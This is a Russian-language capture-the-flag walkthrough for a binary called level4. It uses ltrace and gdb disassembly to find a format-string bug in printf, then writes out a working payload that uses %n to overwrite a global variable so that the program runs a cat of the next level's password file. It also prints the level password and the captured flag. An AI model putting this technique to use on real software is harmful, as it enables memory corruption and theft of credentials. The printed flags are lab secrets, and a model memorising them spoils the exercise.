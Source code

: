 # su level4
# pass: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

====
Уязвимость: print, (Format String Attack), запись в глобальную переменную, %n, изменяется глубина стека, %d
====

**Поведение: ждёт ввод, возвращает эту же строку. Переполнить не получилось.**

Смотрим ltrace, по нему все то же, что и в прошлом задании

# ltrace ./level4 
   __libc_start_main(0x80484a7, 1, 0xbffff804, 0x80484c0, 0x8048530 <unfinished ...>
   fgets(123
   "123\n", 512, 0xb7fd1ac0)                                                = 0xbffff550
   printf("123\n"123
   )                                                                = 4
   +++ exited (status 0) +++

Проверяем gdb - функции, переменные

# disas main

Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave  
   0x080484b3 <+12>:    ret    
End of assembler dump.

# i func
<>
0x08048444  p
0x08048457  n
0x080484a7  main
<>

# disas n

Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp                      536
   0x08048460 <+9>:     mov    0x8049804,%eax                   stdin
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)                 512
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax                -520
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax                512
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>                    p func
   0x0804848d <+54>:    mov    0x8049810,%eax                   <m>:  0x0
   0x08048492 <+59>:    cmp    $0x1025544,%eax                  16930116
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)                "/bin/cat /home/user/level5/.pass"         
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave  
   0x080484a6 <+79>:    ret    
---Type <return> to continue, or q <return> to quit---
End of assembler dump.

# i var 
0x08049810  m

# disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave  
   0x08048456 <+18>:    ret    
End of assembler dump.

Видим отличия - во первых, другое число для сравнения с глобальной переменной m.
Во-вторых, printf вызывается в другой функции, то есть нам придется идти глубже в стек.
После подмены m флаг выведется через cat.

# python -c 'print "AAAA" + " %p" * 14' > /tmp/l4
# cat /tmp/l4 | ./level4

Нужно достигнуть 12 позиции в области памяти. 
Предыдущий метод не подходит из-за слишком большого числа в сравнении, поэтому с помощью %d обозначим это число - записываем по этой позиции через %n 16930112 + 4 байта для адреса.
Итого - адрес 4 байта, 16930112 отступ, 12 позиция.

# python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/l4

# cat /tmp/l4 | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a